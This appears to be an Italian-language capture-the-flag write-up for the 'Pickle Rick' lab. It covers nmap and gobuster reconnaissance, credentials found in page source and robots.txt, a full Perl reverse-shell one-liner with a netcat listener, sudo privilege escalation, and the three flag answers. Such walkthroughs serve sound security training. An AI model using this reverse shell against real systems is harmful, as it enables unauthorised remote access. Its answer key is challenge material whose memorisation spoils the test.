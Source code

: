 #  Pickle Rick

_Difficulty: Easy_
_________________

#  Task 1 - Pickle Rick

- sudo nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_pickle.txt TARGET-IP

![Istantanea_2023-08-05_17-20-30](https://github.com/Manganaccio/Manganaccio/assets/137283468/b0671aa8-bd4a-4af2-9a30-91cf0f6c35ad)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa, viene fornita un username, manca a questo punto una password ed una pagina di login

![Istantanea_2023-08-05_17-19-18](https://github.com/Manganaccio/Manganaccio/assets/137283468/259037d1-74af-4e30-a989-0410973aed80)

- usare gobuster per trovare le directories nascoste e aggiungendo il comando _-x php_ in modo da trovare eventuali pagine di login: gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/common.txt  -x php

![Istantanea_2023-08-06_09-07-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8486d2e6-e4e6-4424-82a2-10af685be615)

- visitando la pagina robots.txt si può ottenere una parola che presumibilmente sarà la password dell'username trovato in precedenza

 ![Istantanea_2023-08-05_17-21-44](https://github.com/Manganaccio/Manganaccio/assets/137283468/c2bbae57-8946-44ad-93c0-74a3f1ac815f)

- visitando la pgina login.php si potrà effettuare l'accesso con le credenziali trovate. Si verrà poi indirizzati ad una nuova pagina web dove si potrà eseguire il comando per ottenere la reverse shell:
  perl -e 'use Socket;$i="YOUR-IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
- in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "perl")

# What is the first ingredient that Rick needs?

- una volta messi in comunicazione si può trovare il primo ingrediente nella directory /var/www/html

![Istantanea_2023-08-06_09-36-42](https://github.com/Manganaccio/Manganaccio/assets/137283468/74752716-7fb8-40b7-ad59-877b42e927dd)

    Answer: mr. meeseek hair

# What is the second ingredient in Rick’s potion?

- nella medesima directory del primo ingrediente c'è un altro file interessante demoninato _clue.txt_: Look around the file system for the other ingredient.
- navigando in home e successivamente nella cartella rick si trova il secondo ingrediente

![Istantanea_2023-08-06_09-38-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/7b8841b0-25bc-476f-b64f-970ba538e2fb)

    Answer: 1 jerry tear

# What is the last and final ingredient?

- eseguendo il comando _sudo -l_ si nota che si possono scalare i privilegi eseguendo semplicente il comando: sudo su
- una volta diventati root navigare nella relativa cartella per trovare l'ultimo ingrediente

![Istantanea_2023-08-06_09-46-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/270a464e-90ab-4144-b184-4f48ad496952)

    Answer: fleeb juice
